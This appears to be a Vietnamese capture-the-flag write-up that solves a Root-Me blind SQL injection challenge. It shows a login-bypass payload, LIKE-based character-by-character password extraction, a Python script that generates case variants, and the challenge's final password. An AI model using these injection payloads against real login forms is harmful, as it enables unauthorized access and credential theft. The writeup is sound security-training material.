



# SQL Injection - Blind

**Tên challenge:** Authentication v 0.02

**Link challenge:** [Here](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-Blind)

**Tác giả challenge:** g0uZ

**Mục tiêu challenge:** Retrieve the administrator password.

**Tác giả Writeup:** Shino

---

# Bài giải

**B1:** Đầu tiên, giao diện Website khá đơn giản, chỉ có 1 chức năng Login:



**B2:** Ta thử đăng nhập với username là `admin` và password là `admin`



Thông thường câu truy vấn liên quan đến chức năng Login sẽ có dạng:
```
SELECT username, password WHERE username = $username and password = $password
```
**B3:** Do đó ta thử nhập input của `username` là `admin' -- a` và `password` thì tuỳ ý.



=> Xem ra suy đoán của ta về câu truy vấn của Website đã đúng.

Nhưng yêu cầu của Challenge là ta phải lấy được `password`, chứ không phải là đăng nhập thành công. Vì vậy, bây giờ ta phải chèn câu truy vấn làm sao để tìm ra `password`.

Cách của tôi là ta sẽ mò từng ký tự trong `password` và ta sẽ dùng cú pháp `LIKE` trong SQL để làm được việc này:
```
SELECT * FROM users WHERE username LIKE 'a%';
```
**Giải thích:** Câu truy vấn trên sẽ trả về các kết quả có username bắt đầu bằng chữ `a` hoặc `A` ( Vì nó còn phụ thuộc vào Collation của cơ sở dữ liệu ). Nhưng với Challenge này thì khi ta sử dụng cách truy vấn tương tự thì Website sẽ cho cả ký tự in hoa hay in thường đều có thể đăng nhập thành công.

**B4:** Ta bắt đầu thử với brute-force ký tự đầu tiên trong `password` bằng cách nhập input của `username` là `admin' AND password LIKE 'a%' --`, và input của trường `password` thì tuỳ ý.

=> Kết quả sau khi Brute-force, ta tìm ra được ký tự: `e` hoặc `E` là ký tự đầu tiên trong `password`.

Sở dĩ, tôi nói như vậy là vì khi câu truy vấn thử tới hai ký tự này thì Website đều cho cả 2 đăng nhập thành công. Nhưng như vậy thì làm sao ta biết được `password` thật sự là gì ? Chút nữa tôi sẽ giải đáp

**B5:** Ta tiếp tục Brute-force đến ký tự thứ 2 trong `password, vẫn là câu truy vấn đó nhưng chỉnh sửa 1 chút:
`admin' AND password LIKE 'Ea%' --` hoặc `admin' AND password LIKE 'ea%' --`

Tiếp tục đến khi ta không tìm được ký tự nào nữa trong cả quá trình Brute-force thì có nghĩa là ta đã đạt giới hạn độ dài của `password`.

=> Cuối cùng, ta sẽ thu được kết quả `password` Brute-force được là: `e2azo93i`

Và vì ta không biết được trong chuỗi `password` trên, ký tự nào in thường và ký tự nào in hoa nên ta sẽ dùng code python bên dưới để tìm ra tất cả các trường hợp ( từ [ `E2azo93i -> E2AZO93I` ]) có thể xảy ra của chuỗi trên.

```
from itertools import product

# Original string and the positions of characters that can vary in case
base_string = "e2azo93i"
case_positions = [0, 2, 3, 4, 7]  # Indices of the letters in base_string that can change case

# Generate all case combinations for the selected positions
variations = []
for combo in product((0, 1), repeat=len(case_positions)):
    # Convert base_string to a list to make it mutable
    temp_string = list(base_string)
    for i, toggle in enumerate(combo):
        # If toggle is 1, change the character to uppercase
        if toggle == 1:
            temp_string[case_positions[i]] = temp_string[case_positions[i]].upper()
    variations.append("".join(temp_string))

# Write to a file
output_file_path = "./e2azo93i_variations.txt"
with open(output_file_path, "w") as file:
    file.write("\n".join(variations))
```
**B6:** Ta tiếp tục Brute-force `password` với file `e2azo93i_variations.txt` vừa được tạo ra

=> Cuối cùng, ta thu được kết quả đúng là: `e2azO93i`